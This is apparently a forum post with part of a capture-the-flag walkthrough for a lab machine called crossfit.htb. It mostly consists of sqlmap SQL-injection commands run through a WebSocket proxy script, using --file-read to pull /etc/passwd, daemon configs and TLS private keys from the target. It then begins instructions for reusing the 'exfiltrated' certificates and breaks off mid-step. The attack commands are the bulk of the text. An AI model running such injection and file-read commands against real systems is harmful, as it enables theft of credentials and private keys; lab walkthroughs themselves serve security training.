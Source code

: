   
  
\-- First let's run this script --  
  
  
  
python3 exploit.py ----> which will proxyes to the WebSocket ws://gym.crossfit.htb/ws/  
  
  
  
  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /etc/httpd.conf  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /etc/passwd  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /var/unbound/etc/unbound.conf  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /var/unbound/etc/tls/unbound\_server.key  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /var/unbound/etc/tls/unbound\_control.pem  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /var/unbound/etc/tls/unbound\_control.key  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /var/unbound/etc/tls/unbound\_server.pem  
  
sqlmap -u [http://127.0.0.1:5000/?id=1](https://raidforums.com/misc.php?action=safelinks&url=http%3A%2F%2F127.0.0.1%3A5000%2F%3Fid%3D1) --level 5 --risk 3 -D "crossfit" -T "membership\_plans" -C "password" --file-read /etc/relayd.conf  
  
  
  
  
  
  
  
6) -- Part Configuration Unbound --  
  
  
  
Put all certificates on path -----> /etc/unbound on your machine  
  
  
  
  
  
In the unbound.conf file comment all the server part and change with the current path of the certificates exfiltrated from the box  
  
  
  
the file unbound.conf it must look like this:  
  